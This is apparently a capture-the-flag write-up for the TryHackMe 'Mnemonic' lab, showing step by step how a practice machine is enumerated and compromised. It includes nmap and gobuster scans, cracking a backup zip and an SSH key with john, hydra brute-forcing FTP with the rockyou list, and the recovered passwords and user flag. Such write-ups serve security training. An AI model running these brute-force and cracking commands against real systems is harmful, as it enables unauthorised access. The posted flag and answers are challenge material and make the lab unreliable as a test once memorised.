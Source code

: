 # Mnemonic

## Mnemonic

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](.gitbook/assets/image%20%28156%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](.gitbook/assets/image%20%28139%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](.gitbook/assets/image%20%28155%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28144%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28154%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](.gitbook/assets/image%20%28137%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](.gitbook/assets/image%20%28138%29.png)

![](.gitbook/assets/image%20%28149%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](.gitbook/assets/image%20%28136%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](.gitbook/assets/image%20%28160%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](.gitbook/assets/image%20%28134%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](.gitbook/assets/image%20%28146%29.png)

![](.gitbook/assets/image%20%28135%29.png)

![](.gitbook/assets/image%20%28145%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](.gitbook/assets/image%20%28147%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](.gitbook/assets/image%20%28161%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](.gitbook/assets/image%20%28143%29.png)

![](.gitbook/assets/image%20%28148%29.png)

![](.gitbook/assets/image%20%28153%29.png)

![](.gitbook/assets/image%20%28133%29.png)

![](.gitbook/assets/image%20%28151%29.png)

![](.gitbook/assets/image%20%28152%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
python3 Mnemonic.py 
```

{% hint style="success" %}

{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

{% hint style="success" %}

{% endhint %}

